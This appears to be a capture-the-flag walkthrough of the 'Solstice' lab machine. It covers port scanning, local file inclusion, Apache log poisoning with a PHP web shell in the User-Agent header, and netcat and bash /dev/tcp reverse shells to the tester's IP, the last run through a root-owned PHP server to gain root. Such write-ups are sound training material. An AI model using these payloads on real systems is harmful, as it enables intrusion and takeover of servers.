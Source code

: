 # Solstice

| Name        | Solstice                      |
| ----------- | ----------------------------- |
| Fuente:     | Myself                        |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.203.72
```
## Enumeration
### Nmap
```shell
nmap -Pn 192.168.203.72
nmap -Pn 192.168.203.72 -sC -sV
nmap -Pn 192.168.203.72 -p- --min-rate=1000

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
2121/tcp open  ccproxy-ftp
3128/tcp open  squid-http

8593/tcp  open  unknown
54787/tcp open  unknown
62524/tcp open  unknown

nmap -Pn 192.168.203.72 -p8593,54787,62524 -sV -sC
```

### FTP
We tried to connect to the FTP service in port 21 but anonymous authentication was not permitted. Then we tried port 2121 and we could connect as anonymous.
```shell
ftp 192.168.203.72 2121

cd pub
```
- Only one directory was found with cero information
### SMTP
We connected to the mail service too but again we didn't find relevant information.
```shell
telnet 192.168.203.72 25
```

### Web Enumeration
We started enumerating the services but we could not find anything relevant, then we are going to continue enumerating the web servers we have access to:
```shell
http://192.168.203.72/
http://192.168.203.72:8593/
http://192.168.203.72:54787
```
- One found with a basic nmap scan and two with a scan of all ports

In the first and third ones we found a just a blank page, but in the second one we found a simple web page with two hyperlinks:
![01-Solstice](01-Solstice.png)

When we click the "Book List" link a GET query is made:
```shell
http://192.168.203.72:8593/index.php?book=list
```
- Then we can try something like LFI or maybe SQLi. 

Let's try first LFI:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../etc/passwd
```
![01-Solstice-1](00-Assets/01-Solstice-1.png)
- Look at that, we can read files from the server

From our initial enumeration we know this is a Apache web server and in this moment we have LFI, then if we could have access to the server log files we could try a Log Poisoning attack.
## Foothold
### Log Poisoning 
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log
```

Now we can try the log poison with a web shell in the User-Agent header.
```shell
curl -s "http://192.168.203.72" -A "<?php system(\$_GET['cmd']); ?>"
```
![01-Solstice-2](00-Assets/01-Solstice-2.png)
- Look how in the red line the space for the User-Agent header is blank (last camp), then our poisoning worked
#### Web Shell
We just need to execute commands in the uploaded web shell:
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=id
```
![01-Solstice-3](00-Assets/01-Solstice-3.png)
- We are in!!!

### Reverse Shell
#### Listener
```shell
nc -lnvp 4444
```
#### Execute Reverse Shell
```shell
http://192.168.203.72:8593/index.php?book=./../../../../var/log/apache2/access.log&cmd=nc+192.168.45.152+4444+-e+/bin/bash
```

![01-Solstice-4](00-Assets/01-Solstice-4.png)
#### Improving Pseudo Console
```shell
script /dev/null -c bash
ctrl +z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Privilege Escalation
We can start with our basic techniques for privilege escalation:
```shell
sudo -l
find / -user root -perm /4000 2>/dev/null

/var/tmp/sv
```
- Look at that, looking for SUID we found a directory that looks like have SUID rights?, that's weird, we don't know how to escalate privileges with just a directory, let's see if there are something there

```shell
ls /var/tmp/sv

index.php
```
![01-Solstice-5](00-Assets/01-Solstice-5.png)
- And there is only one file

Let's stop here an run a tool:
### Linpeas
We need to transfer the binary to the victim machine, we can do this we a python http server.
```shell
chmod +x ./linpeas.sh

./linpeas.sh
```

We start reading the output of this tool and we find something weird in the running processes section:
![01-Solstice-6](00-Assets/01-Solstice-6.png)
- We have a process which owner is `root` running a php web server (`php -S 127.0.0.1:57`) in the folder with SUID rights and the `index.php` file


**The point here is that the user running the web server is `root`. For example we obtained in [Foothold](#Foothold) a reverse shell with the `www-data` user because he was the owner of the process running the web server, then if we edit or create a `php` file with a reverse shell in this web server and visit it we will obtain a connection to a listener.**

### Root Reverse Shell
We can edit the existing `php` file with a file editor like `vim, nano` or we can use the `echo` command to replace the content directly:
```shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.152/5555 0>&1'");?>
<?php system('nc 192.168.45.152 5555 -e /bin/bash')?>

echo "<?php system('nc 192.168.45.152 55555 -e /bin/bash')?>" > index.php
```
#### Listener
```shell
nc -lnvp 5555
```
#### Executing Reverse Shell
We can't visit the web server because we don't have a GUI to open a web navigator, but we can use the following tool:
```shell
curl 127.0.0.1:57
```
- This will made a request directly to `/index.php` and we will obtain our reverse shell

- If we wanted to visit the web page in a web navigator we could have made a tunnel with port forwarding and then visit the URL of the server in our forwarded port:
```shel
http://127.0.0.1:6666
```



